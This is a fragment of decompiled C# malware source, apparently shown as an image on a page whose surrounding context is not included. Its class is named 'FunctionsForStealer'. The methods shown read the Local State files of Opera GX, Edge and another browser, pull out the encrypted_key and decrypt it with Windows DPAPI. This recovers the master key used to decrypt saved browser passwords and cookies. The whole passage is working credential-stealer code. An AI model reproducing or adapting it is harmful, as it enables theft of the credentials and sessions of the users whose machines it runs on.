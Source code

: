 ```csharp
					FunctionsForStealer.LocalStateKeys.<>o__1.<>p__0 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "os_crypt", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				string text3 = target(<>p__, target2(<>p__2, FunctionsForStealer.LocalStateKeys.<>o__1.<>p__0.Target(FunctionsForStealer.LocalStateKeys.<>o__1.<>p__0, obj)));
				byte[] array = Convert.FromBase64String(text3).Skip(5).ToArray<byte>();
				return ProtectedData.Unprotect(array, null, DataProtectionScope.CurrentUser);
			}

			// Token: 0x0600001D RID: 29 RVA: 0x00003254 File Offset: 0x00001454
			public static byte[] GetKeyOperaGX()
			{
				string text = Variables.roamingappdata + "\\Opera Software\\Opera GX Stable\\Local State";
				string text2 = File.ReadAllText(text);
				object obj = JsonConvert.DeserializeObject(text2);
				if (FunctionsForStealer.LocalStateKeys.<>o__2.<>p__2 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__2.<>p__2 = CallSite<Func<CallSite, object, string>>.Create(Binder.Convert(CSharpBinderFlags.None, typeof(string), typeof(FunctionsForStealer.LocalStateKeys)));
				}
				Func<CallSite, object, string> target = FunctionsForStealer.LocalStateKeys.<>o__2.<>p__2.Target;
				CallSite <>p__ = FunctionsForStealer.LocalStateKeys.<>o__2.<>p__2;
				if (FunctionsForStealer.LocalStateKeys.<>o__2.<>p__1 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__2.<>p__1 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "encrypted_key", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				Func<CallSite, object, object> target2 = FunctionsForStealer.LocalStateKeys.<>o__2.<>p__1.Target;
				CallSite <>p__2 = FunctionsForStealer.LocalStateKeys.<>o__2.<>p__1;
				if (FunctionsForStealer.LocalStateKeys.<>o__2.<>p__0 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__2.<>p__0 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "os_crypt", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				string text3 = target(<>p__, target2(<>p__2, FunctionsForStealer.LocalStateKeys.<>o__2.<>p__0.Target(FunctionsForStealer.LocalStateKeys.<>o__2.<>p__0, obj)));
				byte[] array = Convert.FromBase64String(text3).Skip(5).ToArray<byte>();
				return ProtectedData.Unprotect(array, null, DataProtectionScope.CurrentUser);
			}

			// Token: 0x0600001E RID: 30 RVA: 0x00003384 File Offset: 0x00001584
			public static byte[] GetKeyEdge()
			{
				string text = Variables.localappdata + "\\Microsoft\\Edge\\User Data\\Local State";
				string text2 = File.ReadAllText(text);
				object obj = JsonConvert.DeserializeObject(text2);
				if (FunctionsForStealer.LocalStateKeys.<>o__3.<>p__2 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__3.<>p__2 = CallSite<Func<CallSite, object, string>>.Create(Binder.Convert(CSharpBinderFlags.None, typeof(string), typeof(FunctionsForStealer.LocalStateKeys)));
				}
```